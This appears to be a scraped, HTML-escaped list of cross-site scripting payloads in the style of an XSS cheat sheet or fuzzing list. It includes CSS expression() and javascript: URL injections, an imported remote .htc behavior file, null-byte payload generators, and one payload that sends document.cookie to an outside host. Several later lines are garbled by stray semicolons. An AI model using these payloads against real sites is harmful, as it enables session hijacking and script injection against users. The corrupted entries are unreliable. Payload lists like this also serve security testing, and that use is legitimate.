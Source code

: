&lt;style&gt;li {list-style-image: url("javascript:document.vulnerable=true;");&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS

&lt;img STYLE="xss:expr/*XSS*/ession(document.vulnerable=true)"&gt;

&lt;XSS STYLE="xss:expression(document.vulnerable=true)"&gt;

exp/*&lt;A STYLE='no\xss:noxss("*//*");xss:ex/*XSS*//*/*/pression(document.vulnerable=true)'&gt;

&lt;style&gt;.XSS{background-image:url("javascript:document.vulnerable=true");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/a&gt;

&lt;html&gt;&lt;BODY&gt;&lt;?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"&gt;&lt;?import namespace="t" implementation="#default#time2"&gt;&lt;t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;document.vulnerable=true&lt;/SCRIPT&gt;"&gt;&lt;/BODY&gt;&lt;/html&gt;

&lt;HTML xmlns:xss&gt;&lt;?import namespace="xss" implementation="http://www.securitycompass.com/xss.htc"&gt;&lt;xss:xss&gt;XSS&lt;/xss:xss&gt;&lt;/html&gt;

&quot;&gt;&lt;BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert(&quot;XSS&quot;)&gt;

&lt;br size=\&quot;&amp;{alert(&#039;XSS&#039;)}\&quot;&gt;

perl -e &#039;print \&quot;&lt;IMG SRC=java\0script:alert(\&quot;XSS\&quot;)&gt;\&quot;;&#039; &gt; out

perl -e &#039;print \&quot;&lt;SCR\0IPT&gt;alert(\&quot;XSS\&quot;)&lt;/SCR\0IPT&gt;\&quot;;&#039; &gt; out

&lt;~/XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))&gt;

&lt;~/XSS/*-*/STYLE=xss:e/**/xpression(window.location="http://www.procheckup.com/?sid="%2bdocument.cookie)&gt;

&lt;~/XSS STYLE=xss:expression(alert('XSS'))&gt;

"&gt;&lt;script&gt;alert('XSS')&lt;/script&gt;

&lt;/XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))&gt;

XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))&gt;

XSS STYLE=xss:e/**/xpression(alert('XSS'))&gt;

&lt;/XSS STYLE=xss:expression(alert('XSS'))&gt;

';';;!--";&lt;;XSS&gt;;=&;{()}

&lt;;SCRIPT&gt;;alert(';XSS';)&lt;;/SCRIPT&gt;;

&lt;;BASE HREF=";javascript:alert(';XSS';);//";&gt;;

&lt;;BGSOUND SRC=";javascript:alert(';XSS';);";&gt;;

&lt;;BODY BACKGROUND=";javascript:alert(';XSS';);";&gt;;

&lt;;BODY ONLOAD=alert(';XSS';)&gt;;

&lt;;DIV STYLE=";background-image: url(javascript:alert(';XSS';))";&gt;;

&lt;;DIV STYLE=";background-image: url(&;#1;javascript:alert(';XSS';))";&gt;;

&lt;;DIV STYLE=";width: expression(alert(';XSS';));";&gt;;
